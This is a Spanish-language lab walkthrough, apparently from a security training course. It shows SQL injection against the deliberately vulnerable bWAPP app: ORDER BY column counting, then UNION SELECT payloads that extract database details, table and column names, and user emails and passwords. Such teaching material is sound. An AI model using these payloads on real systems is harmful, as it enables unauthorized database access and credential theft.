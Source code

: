 # `03` Injection - SQL injection

1. Selecciona la vulnerabilidad **SQL Injection (GET/Search)** y "Hack".
2. Explora el formulario vulnerable. Verás un formulario con un campo para ingresar una búsqueda (generalmente llamado `title` o `id`). Ingresa un término simple, por ejemplo, `test`, y haz clic en Search. La URL generada de esa busqueda será algo como:

```bash
http://<tu_ip>/bWAPP/sqli_1.php?title=test&action=search
```

El resultado de la busqueda realizada será "not found" eso significa que estaremos bien, ya que test no existe en la tabla, pero no nos ha dado ningun error.

![imagen 1](../../.learn/assets/not-found.png)

### **Descubre el número de columnas**

1. Para identificar cuántas columnas devuelve la consulta original, realiza una prueba utilizando la siguiente inyección. Probemos con la consulta ORDER BY:

```bash
http://<tu_ip>/bWAPP/sqli_1.php?title=test' ORDER BY 1-- &action=search
```

Si no ves ningún error y solo un "not found", significa que la consulta tiene al menos una columna. 

2. Incrementa el número del ORDER BY para seguir verificando hasta que obtengas un error de sintaxis. Por ejemplo:

```bash
http://<tu_ip>/bWAPP/sqli.php?title=test' ORDER BY 2-- &action=search
http://<tu_ip>/bWAPP/sqli.php?title=test' ORDER BY 3-- &action=search
http://<tu_ip>/bWAPP/sqli.php?title=test' ORDER BY 4-- &action=search
```

Cuando llegues al número donde obtienes un error, significa que la consulta tiene una columna menos de la última que probaste con éxito.

![imagen 2](../../.learn/assets/columsql-error.png)


### **Inyección con UNION SELECT**

Una vez que hayas determinado el número de columnas, utiliza una inyección `UNION SELECT` para extraer información. Por ejemplo, si hay 7 columnas, puedes probar con:

```bash
http://<tu_ip>/bWAPP/sqli.php?id=1' UNION SELECT 1, database(), version(), 4, 5, 6, 7-- &action=search
```

> Esto te mostrará el nombre de la base de datos y la versión del servidor SQL.

![imagen 3](../../.learn/assets/get-version-database.png)

### **Exploración de nuevas funciones**

Ahora que has obtenido la base de datos y la versión del servidor, puedes explorar más funciones para obtener información adicional.

- Obtención del nombre del usuario actual:

    ```bash
    http://<tu_ip>/bWAPP/sqli_1.php?title=test' UNION SELECT 1, 2, user(), 4, 5, 6, 7-- &action=search
    ```
    

- Obtención de los nombres de las tablas.

Realiza una consulta UNION SELECT para acceder a la tabla information_schema.tables, que contiene los nombres de las tablas en la base de datos actual. Si el número total de columnas es 7, usa la siguiente URL:

    ```bash
    http://<tu_ip>/bWAPP/sqli_1.php?title=test' UNION SELECT 1, table_name, 3, 4, 5, 6, 7 FROM information_schema.tables WHERE table_schema=database()-- &action=search
    ```

**En esta consulta:**

- `table_name` es la columna que contiene los nombres de las tablas.
- `table_schema=database()` limita la consulta a la base de datos actual.

> Siempre asegúrate de que las columnas en la consulta UNION SELECT coincidan con el número de columnas en la consulta original. La salida debería mostrar los nombres de las tablas disponibles en la base de datos.

![imagen 4](../../.learn/assets/tables-name-sql.png)


- Obtener nombres de columnas.

Una vez que tengas los nombres de las tablas, obtén las columnas de una tabla específica. Por ejemplo, si una de las tablas se llama `users`, usa:

```bash
http://<tu_ip>/bWAPP/sqli_1.php?title=test' UNION SELECT 1, column_name, 3, 4, 5, 6, 7 FROM information_schema.columns WHERE table_name='users'-- &action=search
```

Esto te devolverá los nombres de las columnas en la tabla users.
![imagen 5](../../.learn/assets/colums-name-sql.png)


- Obtener datos sensibles.

Finalmente, extrae información sensible. Si descubres una columna llamada `password`, puedes obtener las contraseñas (o sus hashes) con la siguiente consulta:

```bash
http://<tu_ip>/bWAPP/sqli_1.php?title=test' UNION SELECT 1, email, password, 4, 5, 6, 7 FROM users-- &action=search
```

Esto te mostrará los nombres de usuario y sus contraseñas.
![imagen 6](../../.learn/assets/sensitive-infosql.png)


Si lograste los resultados esperados, ¡felicitaciones! ve a la siguiente leccion `-->`


